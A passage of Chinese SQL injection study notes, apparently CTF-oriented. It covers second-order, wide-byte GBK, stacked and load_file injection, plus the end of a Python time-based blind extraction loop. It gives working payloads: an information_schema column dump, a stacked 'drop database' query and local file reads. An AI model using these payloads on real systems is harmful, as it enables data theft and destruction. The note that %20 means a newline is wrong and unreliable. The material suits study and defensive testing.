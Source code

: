 ```py
            if time.time()-stime<2:
                low = mid + 1
            else:
                high = mid
        if low != 32:
            result += chr(low)
        else:
            break
        print(result)

```



### 注入类型

#### 二次注入

其产生原因是：服务器端虽然对用户的直接输入做了一些过滤或者将一些字符进行转义，但是对于已经存入数据库的信息是完全信任的，即：不校验数据库信息是否合法

利用场景主要有：靶机里同时存在注册和登录页面，且需要获得admin密码



#### 宽字节注入

宽字节就是两个以上的字节，宽字节注入产生的原因就是各种字符编码的不当操作

通常来说，一个gbk编码汉字，占用2个字节。一个utf-8编码的汉字，占用3个字节。因此当我们输入’时，在php代码中如果有过滤的话会利用转义字符\进行转义，而利用urlencode表示的话，就为%5c%27，我们若想要将%5c去掉，则若此时mysql用的是GBK编码，则可以在前面加上一个编码如**%df**，使得系统认定%df%5c表示着一个汉字。

```sql
?id=-1%df%27union select 1,2,group_concat(column_name)from information_schema.columns where table_name=%df'users %df'--+
```



#### 堆叠注入

使用前提：堆叠注入使用的条件很苛刻，会受到API以及数据库引擎，或者是权限的限制。只有当调用数据库的函数支持执行多条SQL语句的时候才可以使用。例如 **mysqli_multi_query()** 函数就支持多条SQL语句同时执行，而 mysqli_query() 函数就不支持。在实际应用中，大多数都使用的是 **mysqli_query()** 函数，所以能使用堆叠注入的说明该网站做的很不成功，因为堆叠注入的爆破效果太好了。一般PHP搭建的网站为了防止SQL注入都会使用 mysqli_query() 函数。

利用方式:在我们输入的语句后面加上分号表示该语句结束，之后再输入另一条语句就可以了。例如可以先写一个查询语句，之后加分号表示查询结束，再在分号后输入删除语句。这样就叫堆叠注入。

```
?id=show database();drop database <数据库名>;
```



#### 文件读取写入注入

##### 文件读取

`union select 1,2,load_file('文件路径')`

```
union select 1,2,load_file('D:/test.txt')
?id=-1 union%20select 1,2,load_file(%27D:/BaiduNetdiskDownload/phpstudy/phpstudy_pro/tet.txt%27)
 （%20是换行，%27是引号，有路径时，防止转义可以将\改为\\或者/）

```
